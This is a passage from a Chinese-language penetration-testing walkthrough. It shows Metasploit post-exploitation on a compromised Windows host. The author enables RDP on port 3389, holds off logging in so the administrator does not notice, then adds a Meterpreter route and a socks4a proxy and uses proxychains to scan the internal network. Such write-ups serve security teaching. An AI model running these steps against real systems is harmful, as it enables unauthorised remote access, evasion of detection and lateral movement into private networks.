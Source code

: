 通过nmap扫描发现该主机的3389端口呈过滤状态，由此猜想可能是防火墙将该端口过滤了

[![](https://p1.ssl.qhimg.com/t010019501037a47efe.png)](https://p1.ssl.qhimg.com/t010019501037a47efe.png)

于是执行以下命令开启3389端口

```
run post/windows/manage/enable_rdp
```

[![](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](https://p1.ssl.qhimg.com/t01a9bd3ed65ecb2eab.png)](https://p1.ssl.qhimg.com/t01a9bd3ed65ecb2eab.png)

再次探测发现3389端口已是open状态

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p0.ssl.qhimg.com/t019414ab7f9b0e0cb0.png)

尝试3389远程登录该主机，但是弹出如果我们继续登录，则会断开该主机的当前连接。为了不惊动管理员，这里我们不继续连接了。

[![](https://p1.ssl.qhimg.com/t01bfcf81c9bddbf840.png)](https://p1.ssl.qhimg.com/t01bfcf81c9bddbf840.png)

### 

### 添加路由、挂Socks4a代理

传送门：[MSF搭建socks代理](https://xie1997.blog.csdn.net/article/details/105872076)

·  添加路由的目的是为了让我们的MSF其他模块能访问内网的其他主机

·  添加socks4a代理的目的是为了让其他软件更方便的访问到内网的其他主机的服务

注：添加路由一定要在挂代理之前，因为代理需要用到路由功能

```
#添加路由
route add 0.0.0.0 0.0.0.0 1
run print
​
#添加socks4a代理
use auxiliary/server/socks4a
run
#然后打开/etc/proxychains.conf，加入下面一行
socks4 0.0.0.0 1080
​
#然后就可以使用nmap了
proxychains nmap -p 21 -Pn -sT x.x.x.x     #在打开其他程序前加上proxychains
```

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t012eb09f21483b324d.gif)[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0192df9647a3839914.png)
